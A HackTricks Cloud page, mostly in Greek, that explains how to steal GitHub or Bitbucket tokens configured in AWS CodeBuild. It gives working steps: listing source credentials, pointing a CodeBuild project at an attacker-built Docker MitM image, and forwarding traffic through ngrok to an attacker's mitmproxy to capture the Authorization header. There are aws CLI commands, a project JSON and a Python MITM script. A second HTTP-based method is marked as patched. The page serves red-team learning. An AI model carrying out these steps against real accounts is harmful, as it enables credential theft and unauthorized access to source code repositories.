 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Ανάκτηση Ρυθμισμένων Tokens Github/Bitbucket

Πρώτα, ελέγξτε αν υπάρχουν οποιαδήποτε διαπιστευτήρια πηγής ρυθμισμένα που θα μπορούσατε να διαρρεύσετε:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Αν διαπιστώσετε ότι η αυθεντικοποίηση για παράδειγμα στο Github είναι ρυθμισμένη στον λογαριασμό, μπορείτε να **exfiltrate** αυτήν την **access** (**GH token ή OAuth token**) κάνοντάς το Codebuild να **χρησιμοποιήσει μια συγκεκριμένη εικόνα docker** για να εκτελέσει την κατασκευή του έργου.

Για αυτόν τον σκοπό μπορείτε να **δημιουργήσετε ένα νέο έργο Codebuild** ή να αλλάξετε το **περιβάλλον** ενός υπάρχοντος για να ρυθμίσετε την **εικόνα Docker**.

Η εικόνα Docker που μπορείτε να χρησιμοποιήσετε είναι [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Αυτή είναι μια πολύ βασική εικόνα Docker που θα ρυθμίσει τις **env μεταβλητές `https_proxy`**, **`http_proxy`** και **`SSL_CERT_FILE`**. Αυτό θα σας επιτρέψει να παγιδεύσετε το μεγαλύτερο μέρος της κίνησης του host που υποδεικνύεται στο **`https_proxy`** και **`http_proxy`** και να εμπιστευτείτε το SSL CERT που υποδεικνύεται στο **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Ακολουθήστε τις οδηγίες του repo για να ρυθμίσετε τη διεύθυνση IP του proxy σας και να ρυθμίσετε το SSL cert και **build the docker image**.
* **DO NOT SET `http_proxy`** για να μην παγιδεύσετε αιτήματα προς το metadata endpoint.
* Μπορείτε να χρησιμοποιήσετε **`ngrok`** όπως `ngrok tcp 4444` για να ρυθμίσετε το proxy στον host σας.
* Μόλις έχετε κατασκευάσει την εικόνα Docker, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
* Δημιουργήστε ένα **νέο έργο Codebuild** ή **τροποποιήστε** το περιβάλλον ενός υπάρχοντος.
* Ρυθμίστε το έργο να χρησιμοποιεί την **προηγουμένως παραγόμενη εικόνα Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Όπως υποδεικνύεται στο **Github repo** μπορείτε να χρησιμοποιήσετε κάτι σαν:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Η **έκδοση mitmproxy που χρησιμοποιήθηκε ήταν 9.0.1**, αναφέρθηκε ότι με την έκδοση 10 αυτό μπορεί να μην λειτουργήσει.
{% endhint %}

4. **Εκτέλεση της κατασκευής & καταγραφή των διαπιστευτηρίων**

*   Μπορείτε να δείτε το token στην κεφαλίδα **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Αυτό μπορεί επίσης να γίνει από το aws cli με κάτι σαν

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Μέσω του πρωτοκόλλου HTTP~~

{% hint style="success" %}
**Αυτή η ευπάθεια διορθώθηκε από την AWS κάποια στιγμή την εβδομάδα της 20ης Φεβρουαρίου 2023 (νομίζω την Παρασκευή). Έτσι, ένας επιτιθέμενος δεν μπορεί να την εκμεταλλευτεί πια :)**
{% endhint %}

Ένας επιτιθέμενος με **υψηλά δικαιώματα σε ένα CodeBuild θα μπορούσε να διαρρεύσει το token Github/Bitbucket** που έχει ρυθμιστεί ή αν τα δικαιώματα είχαν ρυθμιστεί μέσω OAuth, το ** προσωρινό token OAuth που χρησιμοποιείται για την πρόσβαση στον κώδικα**.

* Ένας επιτιθέμενος θα μπορούσε να προσθέσει τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** στο έργο CodeBuild που να δείχνουν στη μηχανή του (για παράδειγμα `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Στη συνέχεια, να αλλάξει τη διεύθυνση URL του αποθετηρίου github για να χρησιμοποιεί HTTP αντί για HTTPS, για παράδειγμα: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Στη συνέχεια, να εκτελέσει το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στην πόρτα που υποδεικνύεται από τις μεταβλητές proxy (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα σταλούν σε **καθαρό κείμενο** (base64) στην θύρα mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Τώρα ένας επιτιθέμενος θα μπορεί να χρησιμοποιήσει το token από τον υπολογιστή του, να καταγράψει όλα τα δικαιώματα που έχει και να (κατα)χρησιμοποιήσει πιο εύκολα από το να χρησιμοποιήσει απευθείας την υπηρεσία CodeBuild.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή την [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
